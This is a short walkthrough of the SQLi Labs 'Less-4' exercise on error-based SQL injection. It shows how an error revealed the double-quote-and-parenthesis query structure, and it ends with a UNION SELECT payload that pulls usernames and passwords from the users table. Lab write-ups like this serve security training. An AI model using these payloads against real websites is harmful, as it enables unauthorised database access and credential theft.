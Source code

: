 Hello Guys,

This is the write-up for Less-4 'Error Based - Double Quotes - string' from SQLi Labs.

Considering 'Double Quotes' from the topic's name, using double quotes after numeric parameter,
``` [URL]/Less-4/?id=1" -- -```,

an error is returned:

``` 
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right 
syntax to use near '' at line 1
```

Alternately using ``` ?id=1") -- - ```,

``` Your Login name:Dumb
Your Password:Dumb ```

So, the input must be going into the query like ```.... WHERE id = ("<input>") ....;```

So using, ``` [URL]/?id=-1") UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users -- -```

